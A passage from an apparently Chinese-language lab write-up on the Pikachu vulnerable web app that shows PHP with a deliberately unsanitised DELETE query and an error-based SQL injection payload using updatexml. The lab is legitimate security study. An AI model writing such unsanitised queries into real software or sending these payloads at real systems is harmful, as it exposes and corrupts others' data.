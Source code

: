 ![image](../../../../assets/img/安全/实验/Misc/pikachu/51.png)

后面爆剩下的略,累了

### "delete" 注入

**服务器端核心代码**
```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理,导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

抓包 `GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1`

参数 id 可以尝试 sql 报错注入,构造 payload

`1 or updatexml(1,concat(0x7e,database()),0)`

通过 Burp Suite 中自带的 URL 转换编码来转换替换 ID

![image](../../../../assets/img/安全/实验/Misc/pikachu/53.png)
